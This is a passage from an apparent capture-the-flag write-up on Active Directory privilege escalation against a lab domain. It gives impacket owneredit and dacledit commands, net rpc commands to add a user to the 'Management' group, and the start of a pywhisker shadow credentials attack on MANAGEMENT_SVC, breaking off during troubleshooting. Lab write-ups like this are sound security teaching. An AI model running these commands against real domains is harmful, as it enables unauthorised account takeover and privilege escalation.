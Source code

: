 1.  **Make judith the new owner of management**:
    -   `impacket-owneredit -action write -new-owner $user -target-sid 'S-1-5-21-729746778-2675978091-3820388244-1104' $domain/$user:$pass`
    -   {{< figure src="/ox-hugo/2024-11-06-091341_.png" >}}

2.  **Grant Judith the ability to add users to the group by modifying the DACL's**:
    -   `impacket-dacledit -action 'write' -rights 'WriteMembers' -principal $user -target-sid  'S-1-5-21-729746778-2675978091-3820388244-1104' $domain/$user:$pass`
    -   {{< figure src="/ox-hugo/2024-11-06-091928_.png" >}}

3.  **Add judith to the group**:
    -   `net rpc group addmem "Management" $user -U $domain/$user%$pass -S $box`
    -   {{< figure src="/ox-hugo/2024-11-06-092400_.png" >}}
    -   +Note+: There will be no output from this command, we need to instead verify it worked in the next command.

4.  **Verify Judith is now part of the group**:
    -   `net rpc group members "Management" -U $domain/$user%$pass -S $box`
    -   {{< figure src="/ox-hugo/2024-11-06-092514_.png" >}}


### Performing the shadow credentials attack against "MANAGEMENT_SVC": {#performing-the-shadow-credentials-attack-against-management-svc}


#### Setting up pywhisker: {#setting-up-pywhisker}

-   **As we are performing this from a linux host we need to use the python based version of whisker**: <https://github.com/ShutdownRepo/pywhisker>
    -   `git clone https://github.com/ShutdownRepo/pywhisker.git`

-   **Lets create a venv so it does not mess with our base python installation**:
    ```shell
      #Navigate into the repo:
      cd pywhisker
      #Create the venv:
      python -m venv whisker
      #Activate the venv:
      source whisker/bin/activate
      #Install our dependencies in the venv:
      pip install -r requirements.txt
    ```

-   **I try to run it but get the below error**:
    -   `python3 pywhisker.py -d $domain -u $user -p $pass --target "MANAGEMENT_SVC" --action "add" --filename newCert --export PEM`
    -   {{< figure src="/ox-hugo/2024-11-06-094708_.png" >}}
    -   Looking online leads me to this open issue: <https://github.com/ShutdownRepo/pywhisker/issues/21>
        -   It appears to not run from a `venv` currently due to the way imports are handled. So we will need to check out a previous git branch.
        -   {{< figure src="/ox-hugo/2024-11-06-105230_.png" >}}

